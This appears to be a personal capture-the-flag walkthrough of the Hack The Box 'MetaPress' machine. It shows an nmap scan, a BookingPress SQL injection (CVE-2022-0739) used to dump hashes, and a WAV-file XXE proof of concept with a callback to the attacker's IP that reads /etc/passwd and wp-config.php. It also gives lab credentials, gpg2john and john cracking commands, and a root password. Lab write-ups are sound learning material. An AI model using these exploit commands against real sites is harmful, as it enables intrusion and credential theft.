







PORT STATE SERVICE VERSION
21/tcp open ftp?
| fingerprint-strings:
| GenericLines:
| 220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
| Invalid command: try being more creative
|_ Invalid command: try being more creative
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
| 256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_ 256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open http nginx 1.18.0
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
I run wordpress scan but didnt find anything interesting other than the users “admin” and “manager”
Website is running wordpress 5.6.2. The site also has an events page which has a vulnerable version of booking press 1.0.10
http://metapress.htb/events/

There were 2 CVEs i found. One was built for this box but I wanted to do it on my own so we used https://github.com/destr4ct/CVE-2022-0739/blob/main/README.md
This python script requires a URL and a "Nonce" which i assume is like a cookie which is why my previous scripts failed. We find the nonce in the source code of the website at the events page.
Nonce = d97102a77b

This allows us to get the hashes for admin and manager
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
manager cracks to partylikearockstar
using a POC we can read files by uploading evil wav files and it sends a callback to our computer
python3 PoC.py -l 10.10.14.20 -p 1337 -f /etc/passwd

download the decode.php and input the base64 string into the decode script to decode the output

User is jnelson
I wasted a ton of time trying to find the wp-config.php file. HTB gave me a hint saying it was wp_config.php but it doesnt have an underscore so nothing worked. I had to eventually cheat after hours of trying different locations.
python3 PoC.py -l 10.10.14.20 -p 1338 -f ../wp-config.php
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
We can then FTP into the machine
We find a send_email.php file with a login for jnelson
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
and we can ssh in using those creds

mysql login but theres nothing interesting
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 2032 Jun 23 2022 /var/www/metapress.htb/blog/wp-config.php
define( 'DB_NAME', 'blog' );
define( 'DB_USER', 'blog' );
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
IN the keypass directory there is a hidden .keys file
we can grab the private key and use gpg2john to get a hash and crack it
gpg2john hash.gpg > super1.txt
john super1.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg
hash cracks to blink182

Now with the password we can output the root password and su
passpie copy ssh --to stdout

root password p7qfAZt4_A1xo_0x